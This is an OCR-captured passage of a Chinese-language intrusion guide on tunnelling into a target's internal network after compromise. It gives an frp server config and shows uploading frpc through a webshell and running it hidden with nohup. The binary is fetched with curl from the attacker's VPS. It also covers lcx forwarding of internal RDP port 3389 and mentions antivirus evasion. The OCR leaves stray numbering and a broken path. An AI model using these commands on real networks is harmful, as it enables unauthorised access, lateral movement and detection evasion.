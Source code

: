 \[common\]-
bind\_port = 8080-
tls\_only = true-
tcp\_mux = true-
privilege\_token = token123-
kcp\_bind\_port = 8080-

2.使用VPS将frpc frpc.ini上传到主机tmp目录，然后运行

1-
2-
3-
4-
5-
6-

Linux:-
chmod +x /tmp/frpc-x86-
nohup /tmp/frpc-x86 -c /tmpfrpc.ini>/dev/null nohup.out &-
-
Windows-
frpc -c frpc.ini-

注：有时候用Webshell管理工具会上传失败或上传文件不完整，可以cd到frp目录，在vps使用 启动一个webserver，然后在客户端使用 下载文件。`python -m SimpleHTTPServer 80``curl http://vpsip/frpc`

以上操作成功后，VPS控制台会有输出，然后VPS会启动一个10001端口，接下来直接配置好Proxifier就可以访问目标内网了。

Proxifier使用参考：[Proxifier Socks5 代理（内网访问、远程办公）](https://blog.csdn.net/u013600314/article/details/106276126/)

ps：frp会涉及到免杀的问题，这里推荐另一个代理工具，体积更小，可以看作是rust版本的frp

[fuso](https://github.com/editso/fuso)

#### 0x02 Lcx

内网IP：192.168.183.168-
公网IP：192.168.183.181

##### 端口转发

内网机器上执行命令：-
将内网的3389端口转发到公网的6666端口`lcx.exe –slave 公网IP 端口 内网IP 端口`

1-
2-

lcx.exe -slave 192.168.183.181 6666 192.168.183.168 3389-
lcx.exe -slave 192.168.183.181 6666 127.0.0.1 3389-

公网机器上执行命令：-
将在6666端口接收到的数据转发到2222端口`lcx.exe -listen 监听端口 连接端口`

1-

lcx.exe -listen 6666 2222-
